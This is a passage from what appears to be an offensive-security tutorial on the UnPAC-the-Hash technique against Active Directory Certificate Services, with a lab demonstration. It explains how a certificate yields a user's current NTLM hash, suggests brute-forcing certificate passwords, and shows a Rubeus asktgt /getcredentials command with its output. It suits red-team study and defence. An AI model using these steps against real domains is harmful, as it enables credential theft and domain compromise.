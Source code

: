 The NTLM hashes can then be retrieved after making a TGS-REQ through U2U, combined with S4U2self, which is a Service Ticket request sent to the KDC where the user requests to authenticate themselves.

The diagram below shows how UnPAC-The-Hash works, but why is this technique advantageous for us as attackers? The advantage is that by generating a user's certificate and using the technique, you will always obtain the current NTLM HASH of that user, meaning:
- Even if the user changes their password, the certificate will remain valid for use (One of the other advantages of ADCS as well, LOL 🤣).
- Even if the user changes their password, with UnPAC, you will always be able to extract the NTLM hash of their current password..

![unpac](./unpac.png)

In the future, we will combine this technique with another one known as CertSync, which is a way to perform "DCSync" but using certificates. Now, let's perform this in a lab; locally, I have an AD environment already set up with ADCS and configured templates.

To execute this technique, the only requirement is that you need to know the certificate's password. So, whenever you're executing, ensure it's from a certificate you created or from a certificate with a weak password that you've managed to brute-force.

```powershell
    .\Rubeus.exe asktgt /getcredentials /user:paulo.victor /certificate:"C:\Tools\esc4-DA.pfx" /password:Senha /domain:corp.local /dc:corp-dc /show

    ______        _
    (_____ \      | |
    _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v2.2.1

    [*] Action: Ask TGT

    [*] Using PKINIT with etype rc4_hmac and subject: CN=Daniel Moura, OU=Usuarios, OU=Inferi, DC=CORP, DC=LOCAL
    [*] Building AS-REQ (w/ PKINIT preauth) for: 'corp.local\paulo.victor'
    [*] Using domain controller: 10.0.0.10:88
    [+] TGT request successful!
```